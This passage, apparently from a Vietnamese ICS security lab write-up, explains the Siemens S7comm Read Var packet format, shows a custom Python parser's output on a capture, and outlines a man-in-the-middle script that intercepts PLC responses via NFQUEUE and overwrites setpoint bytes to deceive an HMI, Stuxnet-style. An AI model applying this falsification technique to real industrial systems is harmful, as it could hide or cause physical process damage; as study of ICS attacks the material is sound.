        - `Count`: có thể chọn toàn bộ một mảng các biến có cùng kiểu bằng cách sử dụng một struct item duy nhất. Các biến này phải cùng kiểu, và phải liên tiếp trong bộ nhớ và trường `Count` xác định kích thước của mảng này. Được đặt là 1 cho việc đọc hoặc ghi một biến duy nhất.
        - Các trường còn lại xách định địa chỉ muốn đọc, viết theo đúng cấu trúc của Any-type với `DB Number` (chỉ có khi `area` là DB) cho datablock muốn đọc, `Area` cho loại vùng nhớ muốn đọc (DB, M, I, Q), `Address` cho địa chỉ cụ thể muốn đọc trong vùng nhớ đó. Trường `Address` 3 byte này encode bit offset theo dạng big-endian.

            
    
    Với Read Var **Response** tương tự, chỉ thay thế phần `Request Item` thành `Data Item`:

    

    - `Error Code`: `0xff` cho success
    - `Variable Type` và `Count` giống như Request Item
    - `Data`: Trả về dữ liệu cho các Items tương ứng được hỏi trong Request Item.
    


- **DB-Type**: dành riêng cho area DB, ngắn gọn hơn cách trên. Tạm không phân tích vì trong dự án này không sử dụng. Cấu trúc của Request Item và Response Item như sau:

    

- **Symbolic**: Thay vì dùng địa chỉ byte, ta có thể dùng tên biến đã được định nghĩa trong chương trình PLC. Ví dụ: `DB1.CustomProperty1`. Khi này tham số sẽ bao gồm tên biến và kiểu dữ liệu. Cách này chỉ hỗ trợ trên các dòng S7-1200/1500. Tạm không phân tích vì trong dự án này không sử dụng.

Lý do cần phân tích cấu trúc gói tin là vì đã thử tìm trên mạng nhưng không có bộ Parser nào cho S7, chỉ duy nhất có một bộ Parser bằng C tại  https://github.com/ricardojoserf/s7-parser. Tuy nhiên nó có một vấn đề là không thể parse được phần `Data` trong `Response Item` của gói tin S7, nên dự án đã dựa vào đó để viết lại bộ parser bằng Python và cải tiến thêm để có thể parse được phần `Data` này. Script tại [đây](./attacker/mitm/s7_parser.py).

Thử nghiệm bộ parser bằng cách chạy trên một file PCAP, chỉ định gói tin cần extract (ở đây là gói tin thứ 9):
```bash
uv run .\s7_parser.py .\wincc_s300_setup-alarm-read-write.pcapng 9
```

Output:

```
Analyzing S7 packet #9:

================================================================================
S7 Protocol Packet Detected
================================================================================

S7 Communication
  Header: (Ack_Data)
    Protocol Id: 0x32
    ROSCTR: Ack_Data (3)
    Redundancy Identification (Reserved): 0x0000
    Protocol Data Unit Reference: 2
    Parameter length: 2
    Data length: 52
    Error class: No error (0x00)
    Error code: 0x00
  Parameter: (Read Var)
    Function: Read Var (0x04)
    Item count: 8
  Data
    Item [1]: (Success)
      Return code: Success (0xff)
      Transport size: BIT (0x03)
      Length: 1
      Data: 01
    Item [2]: (Success)
      Return code: Success (0xff)
      Transport size: REAL (0x07)
      Length: 4
      Data: aabbccdd
    Item [3]: (Success)
      Return code: Success (0xff)
      Transport size: BYTE/WORD/DWORD (0x04)
      Length: 4
      Data: feadbeef
    Item [4]: (Success)
      Return code: Success (0xff)
      Transport size: BYTE/WORD/DWORD (0x04)
      Length: 2
      Data: babe
    Item [5]: (Success)
      Return code: Success (0xff)
      Transport size: BIT (0x03)
      Length: 1
      Data: 01
    Item [6]: (Success)
      Return code: Success (0xff)
      Transport size: BIT (0x03)
      Length: 1
      Data: 01
    Item [7]: (Success)
      Return code: Success (0xff)
      Transport size: OCTET STRING (0x09)
      Length: 2
      Data: 2504
    Item [8]: (Success)
      Return code: Success (0xff)
      Transport size: OCTET STRING (0x09)
      Length: 2
      Data: 0011

================================================================================

```

Giống với cách gói tin được Parse trong Wireshark:




Bây giờ việc của [`s7_intercept.py`](./attacker/mitm/s7_intercept.py) là:

1. Lấy các gói tin S7 lên từ NFQUEUE, mỗi gói tin gọi hàm `process_packet` để xử lý

2. Hàm `process_packet` sẽ kiểm tra đây có phải là gói tin S7 comm không bằng cách kiểm tra Byte TPKT `payload[0] == 0x03` -> COTP `payload[4] == 0x02` -> S7 Header `payload[7] == 0x32` -> ROSCTR `payload[8] == 0x03` (tức gói tin Response từ PLC gửi về HMI)

3. Nếu là gói tin S7 comm và là gói tin Response từ PLC gửi về HMI, thì tại đây sẽ có 2 trường hợp (ứng với 2 cặp request-response đã đề cập ở đầu):

- Gói tin trả lời cho lệnh đọc 1 bit `bCentrifugeStatus` tại `DB2.DBX0.0`
- Gói tin trả lời cho lệnh 4 byte đọc `iSetpoint` và `iSimSpeed` tại `DB1.DBW2`

    Ta lọc để chỉ can thiệp vào gói tin Response trả về `iSetpoint` và `iSimSpeed`. Gói tin này có độ dài 29 Byte, dài hơn gói tin Response trả về `bCentrifugeStatus`. Và vì theo cấu trúc datablock DB1, ta biết biến `iSetpoint` nằm sau `iSimSpeed` nên vị trí của nó sẽ là tại offset 27, 28. Chỉ cần ghi đè giá trị mới vào 2 byte này là xong.

4. Xoá checksum để scapy tự tính lại

5. Đẩy gói tin trở lại NFQUEUE để tiếp tục được chuyển đi.

Lưu ý trên HMI Fuxa khi cấu hình tham số Pooling:



Tốc độ chỉnh sửa gói tin và gửi lại cần phải nhanh hơn tần số polling này để tránh có hiện tượng có gói tin bị mất.


# References

- [Animated video on this attack](https://youtu.be/WXK5XUYFZcg?si=2J6FR6y4AoPdBZUe)

- [Detailed analysis of Stuxnet mechanism](../../docs/Research%20papers/Stuxnet_work_in_details.pdf)

- [Detail on S7 Read Var Request and Response Structure](http://gmiru.com/article/s7comm-part2/)